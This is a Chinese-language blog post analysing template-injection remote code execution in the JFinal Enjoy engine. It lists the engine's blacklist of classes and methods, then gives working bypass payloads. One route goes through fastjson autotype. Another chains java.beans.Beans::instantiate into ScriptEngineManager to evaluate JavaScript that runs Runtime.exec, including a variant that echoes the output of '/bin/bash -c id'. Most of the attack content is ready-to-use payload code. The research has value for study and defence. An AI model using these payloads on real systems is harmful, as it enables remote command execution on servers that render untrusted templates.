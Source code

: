 ```yaml
---
layout: post
title: Enjoy模板注入引擎分析
categories: [blog ]
tags: [Java,]
description: "测验"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: cxkjy.github.io


---
```






# Enjoy模板注入引擎分析

### 前置

```
首先需要了解一下JFinal框架 https://jfinal.com/doc/6-1（官方文档）
Enjoy 模板引擎专为 java 开发者打造，所以坚持两个核心设计理念：一是在模板中可以直接与 java 代码通畅地交互，二是尽可能沿用 java 语法规则，将学习成本降到极致。
```

### 首先学一下表达式

#### 属性访问：

```
user.name为例
```

- 如果user.getName()存在，则优先调用
- 如果user具有public修饰过的name属性，则取user.name属性值（注意：jfinal 4.0 之前这条规则的优先级最低）
- 如果 user 为 Model 子类，则调用 user.get("name")
- 如果 user 为 Record，则调用 user.get("name")
- 如果 user 为 Map，则调用 user.get("name")

#### 方法调用

在模板中直接调用对象上的任何public方法

```
#("ABCDE".substring(0, 3))
#(girl.getAge())
#(list.size())
#(map.get(key))
```

#### 静态属性访问

自jfinal 5.0.2开始，该表达式默认“未启用”，启用需要添加如下配置：

```java
engine.setStaticFieldExpression(true);
```

例子：

````java
#if(x.status==com.demo.common.model.Account::STATUS_LOCK_ID)
 <span>(账号已锁定)</span>
#end
````

通过类名加双冒号再加静态属性名即为静态属性访问表达式

由于以上比较复杂，可以用 #set(STATUS_LOCK_ID=上面的一串)将常量值赋给一个变量。

` 注意，这里的属性必须是public static修饰过的才可以被访问。此外，这里的静态属性并非要求为final修饰。`

#### 静态方法调用

自jfinal 5.0.2开始，该表达式默认"未启用"，启用需要添加如下配置：

```java
engine.setStaticMethodExpression(true);
```

```
#if(com.jfinal.kit.StrKit::isBlank(title))
   ....
#end
```

此外，还可以调用静态属性上的方法，以下是代码示例：

1. (com.jfinal.MyKit::me).method(paras)

### 以上这么多理论举一个代码的实例：

```mariadb
 <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>enjoy</artifactId>
            <version>4.9.21</version>
        </dependency>
```

```java
package com.example;

import java.io.IOException;

public class user {
    public static void run(){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
package com.example;

import com.jfinal.template.Engine;
import com.jfinal.template.Template;

public class main {
    public static void main(String[] args) {
        Engine engine=new Engine();
        Template template=engine.getTemplateByString("#(com.example.user::run())");
        template.renderToString();
    }
}

```

执行完成后发现执行了 com.example.user的静态方法run

## RCE 

在Engine init就会进行一个黑名单的对比

![image-20231006145803177](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006145803177.png)

对类和类的方法都有一个黑名单

```
System.class, Runtime.class, Thread.class, Class.class, ClassLoader.class, File.class, Compiler.class, InheritableThreadLocal.class, Package.class, Process.class, RuntimePermission.class, SecurityManager.class, ThreadGroup.class, ThreadLocal.class, Method.class, Proxy.class, ProcessBuilder.class, MethodKit.class
```

```
"getClass", "getDeclaringClass", "forName", "newInstance", "getClassLoader", "invoke", "notify", "notifyAll", "wait", "exit", "loadLibrary", "halt", "stop", "suspend", "resume", "removeForbiddenClass", "removeForbiddenMethod"
```

`所以就是如何绕过这些黑名单或者，利用黑名单以外某些类来达到命令执行的效果`

### 通过第三方依赖（fastjson达到rce）

```java
set(x=com.alibaba.fastjson.parser.ParserConfig::getGlobalInstance())
#(x.setAutoTypeSupport(true))
#(x.addAccept("javax.script.ScriptEngineManager"))
#set(a=com.alibaba.fastjson.JSON::parse('{"@type":"javax.script.ScriptEngineManager"}'))
#set(b=a.getEngineByName('js'))
#set(payload=xxxxxx)
#(b.eval(payload))
```

### Java自带类绕过

用的是 java.beans.Beans 这个类

重要的是这个类中有一个静态的instantiate方法，并且方法体里面有反射和实例化

![image-20231006151543587](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006151543587.png)

![image-20231006151626044](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006151626044.png)

这里跟进findclass其实就是forname反射，第二个参数是类加载器null在这里就可以

![image-20231006151729723](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006151729723.png)

![image-20231006151703005](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006151703005.png)



## 简单的剖析一下payload

```java
Template template=engine.getTemplateByString("#set((java.beans.Beans::instantiate(null,\"javax.script.ScriptEngineManager\")).getEngineByExtension(\"js\").eval(\"function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\\\"calc\\\")\"))");

首先实例化获得ScriptEngineManger对象，然后用js执行java代码
    
#set((java.beans.Beans::instantiate(null,\"javax.script.ScriptEngineManager\")).getEngineByExtension(\"js\").eval(\"function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\\\"calc\\\")\"))
```

![image-20231006152016534](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20231006152016534.png)

有回显

```java
base=#((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("var s = [3];s[0] = \"/bin/bash\";s[1] =\"-c\";s[2] = \"id\";var p =java.lang.Runtime.getRuntime().exec(s);var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\A\");var result = sc.hasNext() ? sc.next() : \"\";sc.close();result;"))
```



## JavaScript命令执行

javax.script.ScriptEngine类是java自带的用于解析并执行js代码,可以在javascript中执行java代码.

#### 核心代码

```java
String str = "Jscode";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("js");
        engine.eval(str);
```

详细代码：

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
public class Jsexec {
    public static void main(String[] argv) throws ScriptException {
        String str = "function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\"open -a Calculator\");";
        ScriptEngineManager manager = new ScriptEngineManager(null);
        ScriptEngine engine = manager.getEngineByName("js");
        engine.eval(str);
    }
}
```

